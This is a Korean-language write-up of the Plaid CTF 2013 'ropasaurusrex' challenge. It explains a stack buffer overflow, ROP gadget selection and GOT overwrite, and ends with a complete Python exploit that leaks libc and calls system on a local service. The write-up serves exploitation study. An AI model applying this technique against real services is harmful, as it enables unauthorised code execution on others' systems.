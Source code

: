# Ropasaurusrex
### Plaid CTF 2013
***Ropasaurusrex는 p CTF 2013의 문제입니다.***

ropasaurusrex를 처음 실행해 보면, 입력을 받은뒤  WIN이라는 글자와 함께 종료되는 모습을 볼 수 있습니다.

### Main
![Alt text](https://github.com/Funniest/System-study/blob/master/ropasaurusrex/img/Main.PNG)

### Vuln Funtion
![Alt text](https://github.com/Funniest/System-study/blob/master/ropasaurusrex/img/Funciotn.PNG)

sub esp, 98 -> 0x98 만큼 버퍼 생성

lea eax, [ebp-buf] -> 0x88 부터 입력 버퍼

취약한 함수 = call sub_80483F4

buf의 크기는 총 0x88(136) + SFP = (140)인데, 입력은 0x100(256)만큼 받습니다.

└ read(fd, buf, 0x100)

즉 버퍼오버플로우가 일어나게 됩니다.

이제 익스플로잇에 필요한 가젯들을 정리해 보면,
```
1. read_plt, read_got
2. write_plt, write_got
3. pppr
4. dynamic_addr -> bss영역을 사용하지 않는 이유는 영역이 작아서 입니다.
5. read - system libc offset
  └ Offset을 구하는 이유는 주소가 가변적으로 바뀌어도 offset은 고정이기 때문에 이 offset에 base주소를 더해 주면, 
    원래 system주소가 나오기 때문입니다.
```
read - system을 하여 system의 offset을 구한다음 read_got의 addr를 얻어 구한 system offset을 빼면 원래의 system 주소가 나오게 됩니다.

가젯들을 구할 때에는 objdump -d, -h와 gdb를 이용하여 구하였습니다.

read - system을 하여 offset을 구할 때에는 gdb로 아무데나 b를 걸고 달린후 p system, p read를 이용하여 구해주시면 됩니다.

익스플로잇 순서는
```
1. 익스플로잇에 필요한 가젯들을 구합니다.
2. 구한 가젯들을 조합하여 페이로드를 작성합니다.
      └ write_plt에 read_got를 인자로 주어 로드된 read 주소를 얻어옵니다.
      └ 그 후 read_plt를 이용하여 dynamic섹션에 명령어를 받습니다.
      └ got overwrite를 이용하여 read_got를 구한 system주소를 씁니다.
      └ read_plt(system)에 dynamic섹션 영역을 인자로 주어 실행합니다.
```
### Got Overwrite?
Got Overwrite란 read, write함수 등 함수들은 plt주소와 got주소를 가지고 있는데,

plt란 외부 프로시저를 연결해주는 테이블 이라고 나와있습니다.

plt를 이용하여 다른 라이브러리에 있는 프로시저를 호출하여 사용하는 것이 가능합니다.

got는 plt가 참조하는 테이블이고, 프로시저들의 주소가 들어있습니다.

이런 plt와 got를 사용하는 이유는 프로그램을 조금 더 가볍게 하기 위해서 입니다.

원래 옛날에 코드를 컴파일 하면, 라이브러리가 프로그램 안에 들어가서 무거워 졌었는데, 지금은 이렇게 링크를 하여 외부 파일에서 함수를 불러와 프로그램이 가벼워 집니다.

이렇게 프로그램안에 모든 함수 주소를 넣는것을 Static link, 외부 파일에서 필요한 함수만 불러오도록 하는 것을 dynamic link라고 합니다.

간단하게 dynamic link 링크 방식은 plt -> got -> 실제 함수주소를 호출하게 됩니다.

[참고] https://bpsecblog.wordpress.com/2016/03/07/about_got_plt_1/

그럼 plt overwrite는 왜 없냐면 plt는 read only속성이기 때문에 overwrite하는게 불가능하기 때문입니다.

###소스코드
Ubuntu 16 LTS 32bit 환경에서 테스팅 해보았습니다.

```
#!/usr/bin/python

from socket import *
from struct import *
from time import *

p = lambda x: pack("<L", x)
up = lambda x : unpack("<L", x)[0]

s = socket(AF_INET, SOCK_STREAM)
s.connect(('127.0.0.1', 6666))

read_plt = 0x804832C
read_got = 0x804961C
write_plt = 0x804830C
write_got = 0x8049614
pppr = 0x80484b6

dynamic_addr = 0x8049530
read_system_libc = 0x9abe0

cmd = 'ls -al'

print "[+]Exploit!"
payload = ''
payload += 'A' * 140
#Get target write libc address
payload += p(write_plt)
payload += p(pppr)
payload += p(0x1) #stdout
payload += p(read_got)
payload += p(0x4)
#write in dynamic section
payload += p(read_plt)
payload += p(pppr)
payload += p(0x0) #stdin
payload += p(dynamic_addr)
payload += p(len(cmd))
#got overwrite
payload += p(read_plt)
payload += p(pppr)
payload += p(0x0)
payload += p(read_got)
payload += p(0x4)
#system call
payload += p(read_plt)
payload += p(0x41414141)
payload += p(dynamic_addr)

s.send(payload)

#libc distance calc
read_libc = up(s.recv(4))
system_addr = read_libc - read_system_libc
print "System addr [*]" + hex(system_addr)

s.send(cmd)
s.send(p(system_addr))

print s.recv(1024)
print "Finish!"

```
